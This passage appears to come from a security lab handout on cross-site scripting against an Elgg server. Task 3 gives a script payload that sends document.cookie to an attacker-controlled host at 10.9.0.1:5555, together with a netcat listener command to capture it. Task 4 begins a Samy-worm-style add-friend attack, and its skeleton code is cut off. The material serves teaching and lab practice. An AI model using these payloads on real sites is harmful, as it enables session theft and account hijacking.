 ### 3.4 Task 3: Stealing Cookies from the Victim’s Machine

In the previous task, the malicious JavaScript code written by the attacker can print out the user’s cookies,
but only the user can see the cookies, not the attacker. In this task, the attacker wants the JavaScript code to
send the cookies to himself/herself. To achieve this, the malicious JavaScript code needs to send an HTTP
request to the attacker, with the cookies appended to the request.
We can do this by having the malicious JavaScript insert an `<img>` tag with itssrcattribute set to the
attacker’s machine. When the JavaScript inserts the `img` tag, the browser tries to load the image from the
URL in the `src` field; this results in an HTTP GET request sent to the attacker’s machine. The JavaScript
given below sends the cookies to the port 5555 of the attacker’s machine (with IP address `10.9.0.1`),
where the attacker has a TCP server listening to the same port.
```
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
                       + escape(document.cookie) + ’ >’);
</script>
```
A commonly used program by attackers is `netcat`(or `nc`) , which, if running with the `"-l"` option,
becomes a TCP server that listens for a connection on the specified port. This server program basically prints out whatever is sent by the client and sends to the client whatever is typed by the user running the server. Type the command below to listen on port `5555` :
```
$ nc -lknv 5555
```
The `-l` option is used to specify that nc should listen for an incoming connection rather than initiate a
connection to a remote host. The `-nv` option is used to havencgive more verbose output. The `-k` option
means when a connection is completed, listen for another one.

### 3.5 Task 4: Becoming the Victim’s Friend

In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005 (i.e. the Samy
Worm). We will write an XSS worm that adds Samy as a friend to any other user that visits Samy’s page.
This worm does not self-propagate; in task 6, we will make it self-propagating.
In this task, we need to write a malicious JavaScript program that forges HTTP requests directly from
the victim’s browser, without the intervention of the attacker. The objective of the attack is to add Samy as
a friend to the victim. We have already created a user called Samy on the `Elgg` server (the user name is `samy`).
To add a friend for the victim, we should first find out how a legitimate user adds a friend in `Elgg` . More
specifically, we need to figure out what are sent to the server when a user adds a friend. Firefox’s `HTTP`
inspection tool can help us get the information. It can display the contents of any HTTP request message
sent from the browser. From the contents, we can identify all the parameters in the request. Section 5
provides guidelines on how to use the tool.
Once we understand what the add-friend HTTP request look like, we can write a JavaScript program to
send out the same HTTP request. We provide a skeleton JavaScript code that aids in completing the task.
```
<script type="text/javascript">
window.onload = function () {
```